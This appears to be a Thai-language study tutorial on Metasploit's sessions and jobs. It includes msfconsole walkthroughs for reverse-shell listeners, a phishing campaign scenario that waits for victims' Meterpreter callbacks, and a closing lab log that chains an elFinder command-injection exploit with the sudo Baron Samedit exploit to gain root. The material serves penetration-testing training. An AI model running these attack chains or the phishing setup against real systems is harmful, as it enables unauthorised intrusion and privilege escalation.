

# Sessions และ Jobs ใน Metasploit

## Sessions คืออะไร?

**Sessions** คือ:
- อินเทอร์เฟซควบคุมแบบเฉพาะเจาะจงสำหรับแต่ละโมดูลที่เราใช้งาน
- ช่องทางการสื่อสารที่เกิดขึ้นระหว่างเครื่องของเราและเครื่องเป้าหมาย
- ช่วยให้ msfconsole สามารถจัดการหลายโมดูลพร้อมกันได้

### คุณสมบัติของ Sessions:
✅ สามารถสลับไปมาระหว่าง Sessions ต่างๆ ได้  
✅ เชื่อมโยงโมดูลอื่นเข้ากับ Session ที่วางไว้เบื้องหลังได้  
✅ แปลง Session เป็น Job ได้  
✅ การเชื่อมต่อยังคงอยู่แม้จะวาง Session ไว้เบื้องหลัง  
⚠️ Session อาจตายได้ถ้ามีปัญหาระหว่าง Payload Runtime

---

## การใช้งาน Sessions

### 1. การวาง Session ไว้เบื้องหลัง (Background)

มี 2 วิธี:

**วิธีที่ 1:** กด `[CTRL] + [Z]`  
**วิธีที่ 2:** พิมพ์คำสั่ง `background` (สำหรับ Meterpreter)

```
[*] Backgrounding session 1...
msf6 >
```

เมื่อวางเบื้องหลังแล้ว:
- จะกลับมาที่ msfconsole prompt
- สามารถรันโมดูลอื่นได้ทันที
- Session เดิมยังทำงานอยู่

---

### 2. ดู Sessions ที่ทำงานอยู่

ใช้คำสั่ง: `sessions`

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
```

**คอลัมน์ที่สำคัญ:**
- **Id:** หมายเลข Session
- **Type:** ประเภทของ Session (เช่น Meterpreter)
- **Information:** ข้อมูลของระบบเป้าหมาย
- **Connection:** รายละเอียดการเชื่อมต่อ

---

### 3. เข้าใช้งาน Session เฉพาะ

ใช้คำสั่ง: `sessions -i [หมายเลข]`

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

**ประโยชน์:**
- รันโมดูลเพิ่มเติมบนระบบที่ถูก Exploit แล้ว
- ใช้ช่องทางการสื่อสารที่มีเสถียรภาพ

---

### 4. การใช้งานโมดูลเพิ่มเติมกับ Session

**ขั้นตอน:**

1. **Background Session ปัจจุบัน** - กด `[CTRL] + [Z]`
2. **ค้นหาโมดูลที่ 2** - ใช้คำสั่ง `search`
3. **เลือก Session ที่จะใช้** - ดูจาก `show options`
4. **รันโมดูล** - บน Session ที่ต้องการ

**โมดูลที่ใช้บ่อย (Post-Exploitation Modules):**
- 🔑 **Credential Gatherers** - เก็บรวบรวม Username/Password
- 🔍 **Local Exploit Suggesters** - แนะนำช่องโหว่ในเครื่องเป้าหมาย
- 🌐 **Internal Network Scanners** - สแกนเครือข่ายภายใน

---

## Jobs คืออะไร?

**Jobs** คือ:
- งานที่รันอยู่เบื้องหลัง (Background Tasks)
- Session หรือ Exploit ที่แปลงเป็น Job แล้วจะรันต่อไปแม้ Session หลักจะหาย
- จำเป็นต้องจัดการเพื่อเคลียร์พอร์ตหรือทรัพยากรที่ใช้

### ⚠️ ทำไมต้องใช้ Jobs?

**ปัญหา:** ถ้ากด `[CTRL] + [C]` เพื่อยกเลิก Exploit:
- พอร์ตยังถูกใช้งานอยู่
- ไม่สามารถใช้โมดูลใหม่ที่ต้องการพอร์ตเดียวกันได้

**วิธีแก้:** ใช้คำสั่ง `jobs` เพื่อดูและยุติงานเก่า

---

## คำสั่ง Jobs ที่สำคัญ

### 1. ดูเมนูช่วยเหลือ

```bash
msf6 exploit(multi/handler) > jobs -h

OPTIONS:
    -K        Terminate all running jobs (ยุติ Job ทั้งหมด)
    -P        Persist all running jobs on restart (เก็บ Job ไว้ตอน Restart)
    -S <opt>  Row search filter (กรองผลลัพธ์)
    -h        Help banner (แสดงความช่วยเหลือ)
    -i <opt>  Lists detailed information about a running job (ดูรายละเอียด Job)
    -k <opt>  Terminate jobs by job ID and/or range (ยุติ Job ตาม ID)
    -l        List all running jobs (แสดง Job ทั้งหมด)
    -p <opt>  Add persistence to job by job ID (เพิ่มความคงทนให้ Job)
    -v        Print more detailed info (แสดงข้อมูลละเอียดมากขึ้น)
```

---

### 2. รัน Exploit เป็น Job

ใช้คำสั่ง: `exploit -j`

```bash
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.34:4444
```

**`-j`** = Run in the context of a job (รันในรูปแบบ Job)

---

### 3. ดู Jobs ที่กำลังรันอยู่

ใช้คำสั่ง: `jobs -l`

```bash
msf6 exploit(multi/handler) > jobs -l

Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

---

### 4. ยุติ Jobs

**ยุติ Job เฉพาะตัว:**
```bash
kill [index_no]
```
ตัวอย่าง: `kill 0`

**ยุติ Job ทั้งหมด:**
```bash
jobs -K
```

---

## สรุปความแตกต่าง: Sessions vs Jobs

| ลักษณะ | Sessions | Jobs |
|--------|----------|------|
| **คืออะไร** | ช่องทางการเชื่อมต่อกับเป้าหมาย | งานที่รันเบื้องหลัง |
| **Background** | กด CTRL+Z หรือ `background` | รันด้วย `exploit -j` |
| **ดูรายการ** | `sessions` | `jobs -l` |
| **เลือกใช้** | `sessions -i [no]` | - |
| **ยุติ** | `sessions -k [no]` | `kill [no]` หรือ `jobs -K` |
| **ความคงทน** | อาจตายถ้ามีปัญหา | รันต่อแม้ Session หาย |

---


# ทำไมต้องมี Jobs ทั้งที่มี Sessions อยู่แล้ว?

## คำตอบสั้น ๆ

**Sessions** กับ **Jobs** ทำงาน**คนละแบบ** และ**แก้ปัญหาคนละอย่าง** ครับ ไม่ได้ทำงานซ้ำซ้อนกัน

---

## เหตุผลหลักที่ต้องมี Jobs

### 1. **Listener ที่ต้องรันตลอดเวลา** 🎧

**สถานการณ์:**
- คุณตั้ง Reverse Shell Listener รอเหยื่อโทรกลับมา
- แต่คุณต้องการทำงานอื่นต่อใน msfconsole

```bash
# ถ้าไม่มี Jobs:
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > exploit
[*] Started reverse TCP handler on 10.10.14.34:4444
# ตอนนี้ติดอยู่ที่หน้านี้ ทำอะไรไม่ได้!
# ถ้ากด CTRL+C จะปิด Listener ทันที เหยื่อโทรกลับมาก็ไม่มีใครรับสาย!

# ถ้ามี Jobs:
msf6 > exploit -j
[*] Exploit running as background job 0.
msf6 > # ตอนนี้ยังใช้ msfconsole ต่อได้ ส่วน Listener รันอยู่เบื้องหลัง!
```

**ประโยชน์:** Listener รันต่อไปเบื้องหลัง ส่วนคุณทำงานอื่นต่อได้

---

### 2. **Session ยังไม่เกิดขึ้น แต่ต้องการให้งานรัน** 🚀

**ความแตกต่าง:**
- **Job** = กระบวนการที่รันอยู่ (เช่น Listener, Scanner)
- **Session** = การเชื่อมต่อที่สำเร็จแล้ว

```bash
# Job เกิดก่อน Session
msf6 > exploit -j
[*] Exploit running as background job 0.    ← Job เกิดทันที
[*] Started reverse TCP handler...
# รอ 5 นาที...
[*] Sending stage to 10.10.10.205...
[*] Meterpreter session 1 opened             ← Session เกิดทีหลัง!

# ถ้าไม่มี Job ระบบ:
# - Listener จะปิดตัวเอง
# - ไม่มีใครรอรับการเชื่อมต่อ
# - Session จะไม่มีทางเกิดขึ้น!
```

---

### 3. **รัน Exploit หลายตัวพร้อมกัน** 🎯

**สถานการณ์:** ต้องการโจมตีหลายเป้าหมายพร้อมกัน

```bash
# ตั้ง Listener 3 ตัวพร้อมกัน
msf6 > use exploit/multi/handler
msf6 > set LHOST 10.10.14.34
msf6 > set LPORT 4444
msf6 > exploit -j                    ← Job 0

msf6 > set LPORT 5555
msf6 > exploit -j                    ← Job 1

msf6 > set LPORT 6666
msf6 > exploit -j                    ← Job 2

msf6 > jobs -l

Jobs
====
 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
 1   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:5555
 2   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:6666
```

**ถ้าไม่มี Jobs:**
- รันได้ครั้งละ 1 Listener
- ต้องรอให้ Session เกิดก่อน ถึงจะรัน Listener ตัวต่อไปได้
- ไม่มีทางทำ Multi-target Attack พร้อมกัน

---

### 4. **ปัญหาการใช้พอร์ต** 🔌

**สถานการณ์:** ต้องการเปลี่ยนโมดูลแต่พอร์ตยังถูกใช้อยู่

```bash
# ปัญหา: กด CTRL+C เพื่อหยุด Exploit
msf6 > exploit
[*] Started reverse TCP handler on 10.10.14.34:4444
^C
[*] Exploit stopped

msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set LHOST 10.10.14.34
msf6 > set LPORT 4444
msf6 > exploit
[!] ERROR: Port 4444 is already in use!      ← พอร์ตยังไม่ว่าง!

# วิธีแก้ด้วย Jobs:
msf6 > jobs -l                               ← เช็คว่า Job ไหนใช้พอร์ต
msf6 > kill 0                                ← ฆ่า Job เฉพาะตัว
[*] Killing job 0...
msf6 > exploit                               ← ตอนนี้ใช้พอร์ตได้แล้ว!
```

---

### 5. **Automation และ Persistence** 🤖

**Jobs มีความสามารถพิเศษ:**

```bash
# ทำให้ Job รอด Restart
msf6 > jobs -P
[*] All running jobs will persist on restart

# ถ้า msfconsole ถูกปิดและเปิดใหม่:
# - Jobs จะกลับมารันต่ออัตโนมัติ
# - Sessions หายไปหมด (เพราะการเชื่อมต่อขาด)
```

---

### 6. **Brute Force และ Auxiliary Modules** 💪

**สถานการณ์:** รัน Scanner/Brute Force ที่ใช้เวลานาน

```bash
# ตัวอย่าง: สแกน subnet ทั้งหมด
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > set RHOSTS 192.168.1.0/24
msf6 > set THREADS 50
msf6 > run -j                                ← รันเป็น Job

[*] Auxiliary module running as background job 0.

# ตอนนี้คุณสามารถ:
# - รัน exploit อื่น
# - ตั้ง listener
# - ทำงานอื่น ๆ
# ในขณะที่การสแกนยังทำงานอยู่เบื้องหลัง
```

**ถ้าไม่มี Jobs:**
- ต้องรอการสแกนเสร็จก่อน (อาจใช้เวลาหลายชั่วโมง)
- ไม่สามารถทำงานอื่นพร้อมกันได้

---

## สรุปเปรียบเทียบแบบชัดเจน

| สถานการณ์ | Session | Job |
|-----------|---------|-----|
| **รัน Listener รอเหยื่อ** | ❌ ใช้ไม่ได้ (ยังไม่มีการเชื่อมต่อ) | ✅ ใช้ได้ (Job รันรอเหยื่อ) |
| **รัน 3 Listeners พร้อมกัน** | ❌ ทำไม่ได้ | ✅ ใช้ Jobs ทั้ง 3 ตัว |
| **โต้ตอบกับระบบที่แฮกแล้ว** | ✅ ใช้ Session | ❌ Job ไม่มีฟีเจอร์นี้ |
| **รัน Scanner 2 ชั่วโมง** | ❌ ต้องรออยู่ | ✅ Job รันเบื้องหลัง |
| **เคลียร์พอร์ตที่ค้าง** | ❌ ทำไม่ได้ | ✅ `kill` Job ได้ |
| **รอด Restart** | ❌ Session หายหมด | ✅ Jobs -P ทำให้รอดได้ |

---

## ตอบคำถาม: ถ้าใช้ Session แทน Job ได้ไหม?

### ❌ **ไม่ได้ครับ!**

เพราะ:

1. **Session เกิดก็ต่อเมื่อมีการเชื่อมต่อสำเร็จแล้ว**
   - ก่อนหน้านั้นต้องมี **Job** เป็นตัวรัน Listener

2. **Session ไม่สามารถรันหลายอันพร้อมกันแบบอิสระ**
   - ต้องใช้ **Jobs** จัดการหลาย Exploit พร้อมกัน

3. **Session ไม่มีระบบ Persistence**
   - **Jobs** สามารถตั้งให้รอด Restart ได้

---

## ตัวอย่างจริง: Phishing Attack

```bash
# สถานการณ์: ส่ง Phishing Email ไป 50 คน
# พวกเขาจะเปิดไฟล์คนละเวลา ตั้งแต่วันนี้ถึง 3 วันข้างหน้า

# ขั้นตอน:
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_https
msf6 > set LHOST 10.10.14.34
msf6 > set LPORT 443
msf6 > exploit -j                            ← เปิดเป็น Job

[*] Exploit running as background job 0.
[*] Started reverse HTTPS handler on 10.10.14.34:443

# ตอนนี้:
# - Job 0 รัน Listener อยู่เบื้องหลัง (24/7)
# - คุณปิดคอมพิวเตอร์ได้ แต่ Job ยังรันอยู่ในเซิร์ฟเวอร์
# - เมื่อเหยื่อเปิดไฟล์ (1 ชั่วโมง หรือ 2 วันข้างหน้า)
# - Session จะเกิดขึ้นอัตโนมัติ!

msf6 > sessions

Active sessions
===============
  Id  Type                     Information
  --  ----                     -----------
  1   meterpreter x86/windows  VICTIM01\user @ VICTIM01
  2   meterpreter x86/windows  VICTIM02\admin @ VICTIM02
  # เหยื่อ 2 คนเปิดไฟล์แล้ว → Session เกิดขึ้น!
```

**ถ้าไม่มี Jobs:**
- ต้องนั่งรอหน้าจอ 3 วัน โดยไม่สามารถปิดคอมพิวเตอร์
- หรือเหยื่อโทรกลับมาตอนเราไม่อยู่ → เสียโอกาส!

---




```
msf6 exploit(linux/http/apache_druid_js_rce) > search elFinder
msf6 exploit(linux/http/apache_druid_js_rce) > use 3
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set srvhost 10.10.15.67
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > run
meterpreter > getuid
Server username: www-data
meterpreter > shell
sudo -V 
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31


meterpreter > bg
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > search sudo
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > use 61

msf6 exploit(linux/local/sudo_baron_samedit) > show options
msf6 exploit(linux/local/sudo_baron_samedit) > show sessions 
Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  3         meterpreter x86/linux  www-data @ 10.129.203.52  10.10.15.67:4444 -> 10.129.203.52:50808 (10.129.203.52)

msf6 exploit(linux/local/sudo_baron_samedit) > set session 3
session => 3
msf6 exploit(linux/local/sudo_baron_samedit) > run
meterpreter > getuid
Server username: root

```